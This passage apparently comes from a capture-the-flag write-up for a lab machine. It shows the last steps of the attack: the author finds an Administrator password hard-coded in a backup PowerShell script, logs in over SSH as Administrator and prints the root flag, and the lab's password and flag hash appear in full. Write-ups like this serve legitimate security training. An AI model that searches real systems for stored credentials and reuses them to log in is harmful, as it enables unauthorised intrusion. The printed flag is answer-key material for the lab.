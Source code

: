 However, there is a folder called `Backup Scripts` that contains the following:
```
PS C:\Users\Administrator\Desktop\Backup Scripts> ls                                                         


    Directory: C:\Users\Administrator\Desktop\Backup Scripts                                                 


Mode                LastWriteTime     Length Name                                                            
----                -------------     ------ ----                                                            
-a---         11/3/2017  11:22 PM        845 backup.ps1                                                      
-a---         11/2/2017   9:37 PM        462 backup1.ps1                                                     
-a---         11/3/2017  11:21 PM       5642 BackupScript.ps1                                                
-a---         11/2/2017   9:43 PM       2791 BackupScript.zip                                                
-a---         11/3/2017  11:22 PM       1855 folders-system-state.txt                                        
-a---         11/3/2017  11:22 PM        308 test2.ps1.txt
```

And in here, one of the files contain the Administrator password:
```
PS C:\Users\Administrator\Desktop\Backup Scripts> gc .\BackupScript.ps1 | select -first 2                    
# admin password                                                                                             
$password="Cr4ckMeIfYouC4n!"
```

From here, we can log in with SSH as the Administrator and get the flag:
```
❯❯❯ ssh Administrator@10.10.10.77
Administrator@10.10.10.77's password: 

Microsoft Windows [Version 6.3.9600]                                                                               
(c) 2013 Microsoft Corporation. All rights reserved.                                                               

administrator@REEL C:\Users\Administrator>type Desktop\root.txt                                                    
1018a0331e686176ff4577c728eaf32a
```

